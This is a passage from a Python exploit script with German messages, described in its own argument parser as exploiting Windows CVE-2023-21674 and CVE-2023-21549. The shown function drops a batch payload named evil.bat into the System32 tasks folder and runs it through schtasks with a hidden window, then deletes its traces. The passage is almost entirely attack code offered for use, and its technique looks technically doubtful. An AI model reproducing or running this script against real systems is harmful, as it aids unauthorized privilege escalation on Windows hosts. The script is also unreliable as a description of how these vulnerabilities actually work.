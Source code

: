         if output_dir is not None:
             remove_temp_files(output_dir)

    except Exception as e:
        print(f"[FEHLER] CVE-2023-21674: Fehler: {e}")



def exploit_cve_2023_21549():
    """Führt den Exploit für CVE-2023-21549 aus."""
    try:
        temp_file = tempfile.NamedTemporaryFile(delete=False)
        temp_file_path = temp_file.name
        temp_file.write(b'whoami > C:\\Windows\\Temp\\cve_2023_21549_output.txt')
        temp_file.close()

        command = f'fsutil resource setautoreset true C:\\ && copy /y "{temp_file_path}" C:\\Windows\\System32\\tasks\\evil.bat && schtasks /run /tn evil'
        subprocess.run(command, shell=True, check=True, creationflags=subprocess.CREATE_NO_WINDOW)

        time.sleep(2)

        output_path = 'C:\\Windows\\Temp\\cve_2023_21549_output.txt'

        if os.path.exists(output_path):
          with open(output_path, 'r') as f:
              output = f.read()
              print(f"[INFO] CVE-2023-21549 Ausgabe: {output.strip()}")

          os.remove(output_path)
          os.remove('C:\\Windows\\System32\\tasks\\evil.bat')
          os.remove(temp_file_path)

        else:
            print("[FEHLER] CVE-2023-21549: Ausgabe konnte nicht gefunden werden.")

    except subprocess.CalledProcessError as e:
        print(f"[FEHLER] CVE-2023-21549: Fehler bei der Befehlsausführung: {e}")
    except Exception as e:
        print(f"[FEHLER] CVE-2023-21549: Unerwarteter Fehler: {e}")

if __name__ == "__main__":
    required_modules = ['requests', 'argparse']

    all_modules_installed = True
    for module in required_modules:
        if not check_and_install_module(module):
            all_modules_installed = False
            break

    if all_modules_installed:
        parser = argparse.ArgumentParser(description="Exploits CVE-2023-21674 and CVE-2023-21549") # CVE-2023-21743 entfernt
        parser.add_argument("--output_dir", help="Ausgabe Verzeichnis für CVE-2023-21674")
        args = parser.parse_args()

        print("[+] Starte Exploit-Skript...")
